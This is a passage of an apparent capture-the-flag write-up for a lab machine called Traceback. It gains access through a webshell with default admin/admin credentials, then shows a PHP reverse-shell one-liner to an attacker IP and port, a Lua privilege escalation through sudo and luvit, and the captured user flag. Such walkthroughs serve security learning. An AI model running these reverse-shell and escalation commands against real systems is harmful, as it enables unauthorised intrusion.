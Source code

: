 ### Access
Reviewing the source code for smevk.php revealed the default credentials for the webshell are admin/admin.  

### Exploitation
Exploitation was not required for this machine.

### Privelege Escalation
``` 
$ id; uname -a; pwd
uid=1000(webadmin) gid=1000(webadmin) groups=1000(webadmin),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
Linux traceback 4.15.0-58-generic #64-Ubuntu SMP Tue Aug 6 11:12:41 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
/var/www/html
```
Used the console in the webshell to execute a php reverse shell when nc failed
```
$ php -r '$sock=fsockopen("10.10.14.9",9999);exec("/bin/sh -i <&3 >&3 2>&3");'
```
Enumerating webadmin's home dir
```
$ cat .bash_history
ls -la
sudo -l
nano privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua 
rm privesc.lua
logout
```
Googling LUA privesc turned this oneliner on GTFOBins:
```
lua -e 'os.execute("/bin/sh")'
```
Assuming the luvit was equiv to lua -e
```
echo 'os.execute("/bin/sh")'>privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua
```
This produce a shell as sysadmin
```
$ id
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin)
```
Grab user flag
```
$ cat /home/sysadmin/user.txt
c4b0e4a028ff296d222609513a71df25
```
Screenshot of this process \
![Privesc to sysadmin and grabbing user key](img/traceback-10-privesc_to_sysadmin-user_flag.png)
